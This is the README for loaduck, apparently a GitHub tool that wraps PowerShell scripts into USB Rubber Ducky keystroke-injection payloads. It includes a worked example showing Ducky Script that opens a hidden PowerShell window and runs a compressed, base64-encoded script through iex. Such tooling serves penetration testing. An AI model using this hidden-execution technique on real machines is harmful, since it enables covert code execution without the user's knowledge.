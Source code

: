 # loaduck

PowerShell script bootstrapper for the Hak5 USB Rubber Ducky.

Written in PowerShell.

Targets Windows 7 and Windows 10, YMMV otherwise.

## How

PowerShell files can be dragged on to loaduck.ps1 to generate a .ps1.ducky.txt
file that can be used on the ducky.

Or you can use a command like:

    powershell .\loaduck.ps1 [ps1 filename]

This will generate:

    [ps1 filename].ducky.txt

The wrapper script zips your source PowerShell into a single line, then
injects it in an (almost) invisible payload that's fired from Win-R.

### Example

For example, given a (really annoying) PowerShell script of:

```powershell
For ($i=0; $i -le 2; $i++) {
    start https://www.youtube.com/watch?v=dQw4w9WgXcQ
}
rundll32.exe user32.dll,LockWorkStation
```
The script will be encoded into the following Ducky Script:

```
DELAY 5000
GUI r
DELAY 250
ALT SPACE
STRING M
DOWN
REPEAT 40
ENTER
STRING powershell -w hidden iex '(Add-Type n -pas -m ''[DllImport(\"user32\")]public static extern int ShowWindow(int h,int n);'')::ShowWindow((gps -Id $pid).MainWindowHandle,0);Read-Host|iex'
ENTER
DELAY 1000
STRING Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String('c8svUtBQybQ1sFZQyVTQzUlVMAKxtLU1Faq5FICguCSxqEQho6SkoNhKX7+8vFyvMr+0pDQpVS85P1e/PLEkOcO+zDYlsNyk3DI8PSI5kKuWq6g0LyUnx9hIL7UiVaG0OLUIyAQK6PjkJ2eH5xdlB5cklmTm53HxcgEA')))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();
ENTER
```

The long PowerShell script creates the hidden PowerShell window that listens
for keystrokes (our minified annoying script in this case) and then runs them
when it receives and Enter key.

## Compression script

Borrowed from https://github.com/samratashok/nishang - that file remains GPL
licensed.

Small modifications have been made to reduce the final script size - see
https://github.com/thisismyrobot/loaduck/compare/4bd150a...master#diff-d36e9afee0b578300581569656ccd2da
for those changes.
